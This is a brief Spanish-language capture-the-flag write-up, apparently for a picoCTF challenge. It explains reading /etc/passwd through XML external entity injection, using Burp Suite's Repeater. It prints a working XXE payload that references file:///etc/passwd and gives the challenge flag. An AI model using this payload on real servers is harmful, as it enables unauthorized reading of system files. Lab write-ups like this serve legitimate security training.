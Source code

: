 
#### Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

#### Hints 
1. XML external entity Injection


#### Solución:

#### 1. Usamos Burpsuite

````
- Activamos el proxy: FoxyProxy de firefox.
- Nos fuimos al Burpsuite.
	- Mandamos el Request del Proxy a Repeater.
	- Ahí le pegamos el Payload para hacer un ataque XML de tipo XXE
		- XXE:
		- <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
	<ID>&xxe;
	</ID><
	/data>

`````
![[Pasted image 20250407162112.png]]




---
---
#### 2.

````

`````


#### Pico:
picoCTF{XML_3xtern@L_3nt1t1ty_540f4f1e}

#### Notas adicionales:
Debemos cuidar las configuraciones para proteger el XML, y que no lo puedan alterear.

#### Referencias:
https://www.youtube.com/watch?v=b1pGlutUL34



